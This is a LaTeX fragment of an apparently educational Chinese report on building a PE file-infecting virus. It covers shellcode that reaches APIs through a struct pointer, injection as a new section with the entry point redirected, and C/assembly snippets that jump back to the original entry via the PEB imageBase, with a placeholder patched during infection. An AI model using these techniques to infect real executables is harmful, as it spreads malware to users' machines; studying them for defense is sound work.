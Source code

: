 \documentclass[UTF8]{ctexart}
\begin{document}
    上面的例子，展示了 SCSB 是如何在程序中发挥作用的：

    首先，调用 \lstinline{GetAllFunc} 获取 \lstinline{CreateFileA} 的地址。由于编写 shellcode 时不方便使用全局变量，因此通过定义 SCSB 结构体在传参时携带其指针，就可以方便地借助 \lstinline{sb->_CreateFileA} 使用该函数。

    而宏定义的存在，则使得函数使用时，函数名称可以与 fileapi.h 中的定义一致，方便了代码的测试和移植。

    \subsection{返回原入口}
    我们使用的插入 ShellCode 方式，是建立新的 section，并将程序入口指向新节。我们需要在 ShellCode 执行完毕后，跳转回原本的程序入口，以保证原始程序的正常执行。

    下面就是这一跳转过程的简短例子，也是最简短的 ShellCode:

    \begin{lstlisting}[language=C, caption={tiny shellcode}, captionpos=b]
void ShellCode() {
    PBYTE peb;
    __asm {
        mov eax, fs:[30h]
        mov peb, eax
    }
    DWORD imageBase;
    imageBase = *(DWORD*)(peb + 0x8);
    __asm {
        mov eax, imageBase
        add eax, 0x11223344
        jmp eax
    }
}
    \end{lstlisting}

    通过 peb 中的 imageBase 字段，可以动态获取当前运行的程序的基地址。而 0x11223344 则是起到``占位''的作用。这一占位字段，会在传染目标程序时从 Optional Header 中获取程序入口的 RVA 地址后被替换。

    之所以需要动态获取 imageBase，是因为程序的 imageBase 是变化的。

    但是，这种写法同样存在一个问题: 代码本身作为传染源时，该字段没有经过更改和替换，执行时会跳转到错误的地址。于是，我们又对其进行了一些改进：

    \begin{lstlisting}[language=C, caption={改进后的 jmp back}, captionpos=b]
void ShellCode() {
    // Return back
    __asm {
        mov eax, 0x0
        add eax, imageBase
        cmp eax, imageBase
        je __code_end
        jmp eax
    }
__code_end:
    return;
}
    \end{lstlisting}
    
    之所以需要使用 \lstinline{mov} 是因为 \lstinline{add} 汇编指令对应的操作码较多，如表~\ref{tab:add and mov} 所示。假设这里使用\lstinline{add eax, 0x0}，而不是0x11223344的话，编译器就会生成 83 C0 00，仅能容纳1字节地址。与 add 指令不同，mov到32位寄存器时一定会生成32位立即数地址，即8B xx xx xx xx。再通过简单的比较，就可以判断程序是否为感染源程序 (即是否存在需要返回的原入口)，然后正常的退出函数。
\end{document}
